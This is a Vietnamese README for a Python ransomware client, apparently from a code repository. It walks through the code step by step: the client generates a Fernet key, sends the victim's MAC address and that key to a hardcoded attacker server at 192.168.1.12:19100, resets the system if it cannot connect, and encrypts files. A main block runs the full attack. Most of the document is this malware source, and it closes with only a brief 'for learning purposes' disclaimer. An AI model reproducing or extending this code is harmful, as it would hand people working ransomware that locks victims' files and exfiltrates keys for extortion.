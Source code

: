 # Client Documentation

Module Python này triển khai một ransomware đơn giản kết nối với máy chủ, mã hóa tệp và giải mã chúng bằng thuật toán mã hóa Fernet. Để sử dụng ransomware, trước tiên hãy nhập các Module cần thiết, bao gồm thời gian, tiện ích hệ thống, công cụ mã hóa và giao tiếp ổ cắm. Sau đó, định nghĩa lớp `Ransomware`, khởi tạo nó với máy chủ và cổng của máy chủ. Kết nối với máy chủ bằng phương pháp `ConnectServer`, phương pháp này cố gắng thiết lập kết nối và gửi thông tin hệ thống cùng với khóa mã hóa. Sau khi kết nối, bạn có thể mã hóa các tệp bằng phương pháp `Encrypted` và giải mã chúng bằng phương pháp `Decrypted`. Cuối cùng, khởi tạo lớp `Ransomware` và thực thi tập lệnh ransomware, đảm bảo rằng máy chủ và cổng của máy chủ được định cấu hình chính xác.

1. **Import the necessary modules**:
   ```python
   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM
   ```
- Module Python này triển khai một ransomware đơn giản kết nối với máy chủ, mã hóa tệp và giải mã chúng bằng thuật toán mã hóa Fernet.

2. **Class Ransomware**:
    ```python
    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)
    ```
- Tạo khóa mã hóa ngẫu nhiên, khởi tạo đối tượng `System`.
- Tạo một `socket` để giao tiếp và một thể hiện `Fernet` để mã hóa/giải mã.

    ```python
    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()
    ```
 - Phương thức `ConnectServer` cố gắng kết nối với máy chủ thông qua địa chỉ IP và cổng được cung cấp. Nếu không thể kết nối sau 3 lần thử, hệ thống sẽ được đặt lại.

    ```python
    def Encrypted(self):
        Encrypt(self.Private)
    
    def Decrypted(self):
        Decrypt(self.Private)
    ```
 - Phương thức `Encrypted` sẽ mã hóa dữ liệu sử dụng khóa riêng tư đã được tạo.
 - Phương thức `Decrypted` sẽ giải mã dữ liệu đã được mã hóa sử dụng cùng một khóa.
    
    ```python
    if __name__ == '__main__':
        bot = Ransomware('192.168.1.12', 19100)
        bot.ConnectServer()
        bot.Encrypted()
    ```
 - Khi khởi tạo một đối tượng `Ransomware`, bạn cần cung cấp địa chỉ IP (`host`) và cổng (`port`) của máy chủ mà bạn muốn kết nối đến.


**Lưu ý**: *Mã này chỉ nên được sử dụng cho mục đích học tập. Sử dụng nó để thực hiện các hoạt động phi pháp (như tấn công mạng) có thể dẫn đến hậu quả pháp lý nghiêm trọng. Luôn tuân thủ các quy định pháp lý khi sử dụng và phát triển mã nguồn mở.*